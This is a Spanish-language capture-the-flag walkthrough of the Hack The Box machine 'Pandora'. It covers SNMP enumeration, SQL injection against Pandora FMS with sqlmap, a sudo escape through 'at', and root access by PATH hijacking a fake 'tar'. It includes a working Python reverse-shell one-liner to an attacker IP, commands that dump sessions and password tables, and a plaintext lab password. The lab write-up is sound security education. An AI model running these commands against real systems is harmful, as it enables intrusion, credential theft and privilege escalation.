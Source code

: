 ```yaml
---
layout: post
author: Sergio Salgado
---
```

# [](#header-1)Pandora HtB

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
Esta maquina es una de las faciles de HtB, su sistema operativo es Ubuntu linux. E intentaremos llegar a las flags de la maquina.

- <a href="#desarrollo">Desarrollo</a>
Despues del primer escaneo, ingresamos al servicio web y mientras navegamos no encontramos nada importante. Pero si descubrimos un dominio, el cuel integraremos en nuestro archivo /etc/hosts. Para posteriormente, realizar otro escaneo dirigido al dominio.

![Nmap segundo scanning](/assets/images/pandora/nmap2PANDA.png)

Podemos observar que la maquina corre un servicio de snmpv1, el cual es usado para la administracion y monitoreo de la red. Y hasta la version 2 se mandan mensajes en texto limpio. Solamente la version 3 que es el mas reciente cuenta con encriptacion y autenticacion. SNMP almacena informacion en una estructura llamada MIB (Management Information Base). Esta es una estructura relacional que considera que informacion puede ser leida, escrita y accesible. Este utiliza identificadores OIDs. Pero esto nos es tan importante, solo es la informacion basica.

Para sacar informacion de la maquina que corre este servicio, la peticion se manda con un metodo GET a la maquina, con unstring para autentificarse el mismo. SNMP usa 2 strings diferentes llamados strings comunitarios, para autenticacion con maquinas. El string de solo lecturaes usualmente solo para informacion para lectura unicamente, y el atributo de lectura y escritura, son permisos para modificar alguna informacion. Lo importante de estos strings comunitarios, es que no pasan por ninguna encriptacion en hashes, son atomicos y faciles de crackear. Se utilizo esta <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt">lista</a> para encontrar los strings comunitarios de la maquina.

Intentaremos usar diferentes herramientas para descubrir informacion sobre este servicio encontrado 
Con el modulo scanner/snmp/snmp_login de msfconsole, encontramos la version del sistema operativo y del servicio snmp
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP y un community string que generalmente se usa llamado “public” 

Nos instalamos la herramienta
```sc
sudo apt-get install snmp-mibs-downloader
download-mibs
```

Ya que conocemos un string usado, podemos proceder a usarlo para acceder a los datos transmitidos con el comando:

```sc
snmpwalk -v 1 -c public panda.htb
```
![Primer scan con snmpwalk](/assets/images/pandora/snmpwalk1.png)
La herramienta anterior es un poco lenta y agresiva, para hacerlo mas rapido, podemos usar otra herramienta, que su sintaxis es:

```sc
braa public@10.10.11.136:.1.3.6.*
```
![Braa](/assets/images/pandora/braa.png)

Encontramos 3 palabras clave, las cuales pueden ser
- Email addresses
- SNMP community strings
- Password hashes
- Clear text passwords


Después con la herramienta snmpenum, seguiremos recopilando informacion de la maquina

```sc
snmpenum 10.10.11.136 public linux.txt
snmpwalk -c public -v2c -On 10.10.11.136

```
Despues de encontrar los strings comunitarios, se uso una herramienta llamada snmpwalk para enumerar toda la informacion que se pudo. 

```sc
snmpwalk -v 1 -c public panda.htb > snmpwalk-1.txt
```
![Segundo scan con snmpwalk](/assets/images/pandora/snmpwalk_pass.png)

Como podemos ver, se ha encontrado en texto plano un usuario y contrasena, asi que la usaremos para loggearnos por SSH en la maquina.

La flag de usuario esta en otro directorio de usuario, asi que buscaremos la manera de cambiar de usuario. El primer objetivo es **/var/www/html** y **/var/www/pandora**. El lado de html es visible para el publico, pero pandora es nuevo. Dentro del archivo /etc/hosts vemos unas asignaciones, asi que las usaremos como ventaja.

Si asumimos que estos hostnames entraran en el directorio de pandora, entonces necesitaremos establecer un tunel dinamico. Esto se puede hacer con:
```sc
ssh -D 9090 daniel@panda.htb
```

Usando este tunel, podemos ahora configurar un proxy para ver la pagina web.
Nota Estos deben ser SOCKS5 ya que este soporta resolucion de DNS.

![Configuracion de Proxy](/assets/images/pandora/proxy_config.png)

![Prueba del proxy](/assets/images/pandora/proxy_working.png)

Navegaremos a localhost.localdomain/pandora_console y nos mostrara una pagina para logearnos para algun software llamado pandora FMS. Para nustra suerte, existen muchos CVEs para este software, y este <a href="https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/">post</a> especificamente nos muestra que los parametros **chart_generator.php** files **session_id** son vulnerables. Para usar sqlmap para esto, necesitaremos antes una gran herramienta llamada proxychains. Proxichains esta disenada para hacer una cadena de proxies que te permiten usar tus herramientas en otras maquinas sin tener que instalarlas en el otro lado. Para usarlo necesitas especificar el tunel dinamico en el archivo /etc/proxychains4.conf

```sc
socks5 127.0.0.1 9090 daniel HotelBabylon23
```
![Proxychain config file](/assets/images/pandora/proxychain_conf.png)

Despues de configurarlo podemos ejecutar el ataque sqli contra el archivo generador de caracteres. 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
``` 
![Sqlmaping with proxychain](/assets/images/pandora/sqlmap_pass.png)

La tabla en la que estamos interesados es **tpassword_history**. Despues de llegar a ella, obtenemos unas contrasenas con hashes para daniel y matt. Al ver los hashes, se puede ver que pueden ser MD5, o podemos utilizar la <a href="https://hashes.com/es/tools/hash_identifier">herramienta</a> para identificar que tipo de hashes se utilizaron.

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
``` 

Tambien en los id de sesiones de php que estan guardados en la tabla **tsessions_php** 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttsessions_php --dump
``` 

![Php sessions con sqlmap](/assets/images/pandora/php_sessions.png)

Ahora podemos copiar una de las sesiones de matt en el url y ver si funciona.

Y como lo mencionamos, esto nos trae al dashboard. Desafortunadamente a pesar de esto , no se pudo establecer una shell mediante alguna injeccion de sql o algo visible. Pero utilizando esta <a href="https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py">herramienta</a>, pudimos entrar como matt y leer la primer flag en /home/matt/user.txt.

```sc
proxychains python3 [pythontool].py -t localhost.localdomain
``` 

![Admin cookie](/assets/images/pandora/admin_cookie.png)


Hasta este punto, nos damos cuenta de que estamos en un ambiente restringido, ya que el comando sudo nos arrojo una respuesta extrana que se ha visto en otras maquinas. Asi que para seguir con esto hay que revisar los binarios para suid bits, y ahi encontraremos en **/usr/bin/at** cosas de sudo. Una vez con esto, podemos usar <a href="https://gtfobins.github.io/gtfobins/at/#sudo">el script de gtfobins</a> y nos permitira movernos a travez de la restriccion y asi poder navegar con una shell con privilegios elevados.

Para poder ejecutar comandos con sudo, sin restricciones:

```sc
echo "/usr/bin/at <$(tty) >$(tty) 2>$(tty)" | sudo at now; [COMMAND]
``` 
Para tener una shell mas bonita, sumamos el script anterior y le adjuntamos el reverse shell de python, usamos el reverse shell hecho en python

```py
 python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.230",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
``` 
Del lado de kali, ejecutamos el netcat:

```sc
nc -lvp 4444
``` 
Cuando estaba intentando quitarme la restriccion , encontre un binario en /usr/bin llamado pandora_backup. Lo descargue a mi maquina e hice unas pruebas y al parecer utiliza el comando tar para comprimir archivos. Asi que cree un archivo tar malicioso y lo ejecute para ganar el privilegio de root.

Una vez dentro del usuario, proseguiremos a usar el id de rsa de ssh, el cual se encuentra normalmente en /home/usr/.ssh/ 

Notaremos que la llave no existe en este caso, asi que la generaremos con el comando:
``` 
ssh-keygen
``` 
Una vez usado este comando, podremos seguir con el siguiente paso, que es copiar el id_rsa a la maquina kali y usar la llave para que el servicio de ssh no nos pida alguna contraseña al pedir la conexion.
Le damos un 
``` 
cat id_rsa
``` 
para leer la llave privada, la copiamos y la pegamos en un archivo con nombre igual dentro de nuestro directorio de Pandora. Con un: 
``` 
nano id_rsa 
``` 
generaremos el archivo, copiaremos la llave privada y despues le cambiaremos los permisos con un:
```  
cat id_rsa >> authorized_keys
chmod 600 authorized_keys
``` 
 del lado de la maquina de matt

Despues, para ganarnos el root nombraremos a un archivo tar, le asignamos permisos de ejecusion con 
``` 
nano /tmp/tar
#dentro del archivo tar, escribiremos /usr/bin/sh
chmod +x /tmp/tar
``` 
![New Tar](/assets/images/pandora/abrir_shell_tar.png)
le agregaremos que nos ejecute /usr/bin/sh para ejecutar una terminal.

Ahora, para que la maquina al buscar comandos rapidos, empiece por nuestra ruta, usaremos el comando 
```
echo $PATH 
#nos muestra el path donde nos encontramos
```
```
export PATH=/tmp:$PATH 
#para que empiece a buscar a partir del path que estamos usando
```
Y ahora si estamos listos para ejecutar el comando de `backup_pandora` y automaticamente tener la shell mediante el path hijacking.

![New Tar](/assets/images/pandora/Pandora_final.png)